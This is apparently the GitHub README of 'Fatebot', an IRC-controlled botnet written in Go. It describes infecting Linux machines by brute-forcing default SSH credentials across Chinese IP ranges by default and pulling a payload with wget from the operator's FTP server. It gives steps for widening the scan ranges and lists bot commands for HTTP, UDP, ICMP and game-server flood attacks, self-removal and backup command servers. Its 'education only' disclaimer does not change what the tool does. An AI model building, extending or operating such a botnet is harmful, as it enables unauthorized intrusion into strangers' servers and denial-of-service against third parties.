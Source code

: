 <h2>Attention Attention!!! My english is terrible. I'm so sorry about that :( </h2>

# Fatebot v0.4.1
This is my first IRC bot for launch DDoS attack. Scan target are anything that run linux, Open default SSH port, Use default username and password. This bot is write on Go language. For education purpose only. Please test it in your lab, And i create this for join university in the future not for attack anyone server with out any permission!!!

<strong>IRC commands are in the bottom of The page.</strong>

<img src="assets/drfate.jpg" alt="Dr Fate">

# Infect
The infect function of this bot is scanning by default SSH port<strong>(Scan on range of CHN network by default. You can add more or change it, If you want.)</strong>
and login by Brute-force attack. This botnet will use "wget" to get payload from FTP server, So... Please prepair your FTP server first, It's very important for infect process.

<strong>I scan on my private netowrk in SSH range.(That's why it's scan and login at The same ip address.)</strong>

	my_ssh_ip = "192.168.57"
	ipGen = append(ipGen, genRange(134, 133), ".")
	
	//Just example of my private scan!!!!

<img src="assets/scanprocess.png" alt="SSH scan">

# Add more IP range

(1) Go to "scan.go" file in pkg folder. Add your new ip range in to The group of const varible.

		var_name = "224." //224.0.0.0 - 224.255.255.255
		or
		var_name = "224.12" //224.12.255.255

(2) Go to "NextIP" function, And add The case for your ip range and return range of your ip.

		case var_name:
				return ManageIP_range(ipRange, GenRange(255, 0))
				
(2.1) In case of The ip range That you don't want to custom your second network prefix.
	
	Example:
	
		var_name = "224.12"
		var_name = "224.20"
		
	//The ip range that look like this it will return range of The id since 0 - 255 by default.
	//So... That's mean you don't need to add a case of your ip range.
	

(3) Then go to The "SSH_Conn" function, And add your ip constant to The slice name "NetList".

		NetList := []string{
			ip1, ip2, ip3, ip4, ip5, ip6, ip7, ip8,
			ip9, ip10, ip11, var_name,
		}
		
<strong>I use shodan to do a static and analysis of scanning like how many of ssh port are open on which isp/org. What is the most used os, version and etc.</strong>

# DDoS
Raw socket programming is really hard for me. That's why all of <strong>The volumetric</strong> are a simple like udp and icmp flood.
Main DDoS function is on <strong>The Application layer</strong>.


<img src="assets/postfloodtraffic.png" alt="http post flood, dos example">

# Build payload
<img src="assets/howtobuild.gif" alt="how to build">

# Update Lists
<p><strong>Fatebot v0.1</strong> = Fatebot open release.</p>
<p><strong>Fatebot v0.2</strong> = Update get bot system information function and Add some tutorial in main and scan file.</p>
<p><strong>Fatebot v0.2.1</strong> = Cut private scanning and OS signal by change it to self remove when running. And change some IRC commands that will type easier.</p>
<p><strong>Fatebot v0.2.2</strong> = Cut scan failed report for fix server overheat and excess flood, 
  And Optimize by change ip range and default ping time, That will help to find SSH port faster.(Maybe, But fast than old one.)</p>
<p><strong>Fatebot v0.3</strong> = Update new DDoS Vector. Set size of UDP packet to 700 as default when bot herder input The over size.</p>
<p><strong>Fatebot v0.3.1</strong> = Fix vse and post flood. Fix IRC configuration that will make a little easy to config and change project layout.</p>
<p><strong>Fatebot v0.4</strong> = Update IRC Backup Server configuration for Backup our bots When The Main IRC Server got shutdown by accident. Add and remove some feature of info function.</p>
<p><strong>Fatebot v0.4.1</strong> = Change curl to wget, Add more Default IP range, Config some assets and tutorial. Re-Write a shit code, Fix post and get flood.</p>

# IRC Commands
<ul>
  <li><strong>?get [url]</li></strong>
    <ul>
      <li>?get http://target.com</li>
      - Flood HTTP get request to target.
    </ul>
</ul>

<ul>
  <li><strong>?post [url]</li></strong>
    <ul>
      <li>?post http://target.com</li>
      - Flood HTTP post request to target.
    </ul>
</ul>

<ul>
  <li><strong>?udp [ip] [size]</li></strong>
    <ul>
      <li>?udp 192.168.1.16 500</li>
      - Flood UDP packets by random src and dst port to target. 
      <p>- Min and Max of Buffer is 1 - 700bytes.</p>
    </ul>
</ul>

<ul>
  <li><strong>?icmp [ip]</li></strong>
    <ul>
      <li>?icmp 192.168.1.16</li>
      - Flood ICMP with large packets to target.
    </ul>
</ul>

<ul>
  <li><strong>?vse [ip]</li></strong>
    <ul>
      <li>?vse 192.168.1.16</li>
      - Flood TSource Engine Query request(UDP) on valve source engine dst port, By random src port. To the target server that used to host online games.
    </ul>
</ul>

<ul>
  <li><strong>?scan [ftp server]</li></strong>
    <ul>
      <li>?scan ftp://192.186.1.16/payload</li>
      - Scan CHN ip range(By default.) on SSH port and get payload with wget.
    </ul>
</ul>

<ul>
  <li><strong>?info</li></strong>
    <ul>
      - Get bot system information, For bot analysis.
    </ul>
</ul>

<ul>
  <li><strong>?kill</li></strong>
    <ul>
      - Bot self-close.
    </ul>
</ul>

<ul>
  <li><strong>?stopddos</li></strong>
    <ul>
      - Stop ddos attacking.
    </ul>
</ul>

<ul>
  <li><strong>?stopscan</li></strong>
    <ul>
      - Stop scanning.
    </ul>
</ul>
